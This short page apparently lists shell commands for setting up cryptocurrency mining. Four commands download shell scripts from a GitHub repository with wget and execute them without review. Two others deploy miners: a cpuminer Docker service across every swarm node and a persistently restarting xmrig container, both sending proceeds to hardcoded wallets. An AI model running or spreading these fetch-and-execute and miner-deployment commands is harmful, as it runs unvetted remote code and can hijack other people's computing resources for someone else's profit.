 # wget https://raw.githubusercontent.com/penjelajahwaktu/subrek/main/home.sh && chmod +x home.sh && ./home.sh

# wget https://raw.githubusercontent.com/penjelajahwaktu/subrek/main/sug.sh && chmod +x sug.sh && ./sug.sh

# docker service create --mode=global --name miner alexellis2/cpu-opt:2018-1-2 ./cpuminer -a yespower -o stratum+tcps://stratum-asia.rplant.xyz:17079 -u VVPBKDtfy9hJRuFEhZ8Lj1yR5TaNAcVobb.cloud1

# docker run --restart=always miningcontainers/xmrig:latest --tls -o xmr-us-east1.nanopool.org:14433 -u 83ErkzmC8yH2omjYvg6G7vc4fiP33k9EsXrGjs4ssW7hetWN3VHKgtVDsGTpjipJmDMWnsgpfb32NYw186uYE2UyEcDv343 --coin monero

# wget https://raw.githubusercontent.com/penjelajahwaktu/subrek/main/tid.sh && chmod +x tid.sh && ./tid.sh

# wget https://raw.githubusercontent.com/penjelajahwaktu/subrek/main/der.sh && chmod +x der.sh && ./der.sh
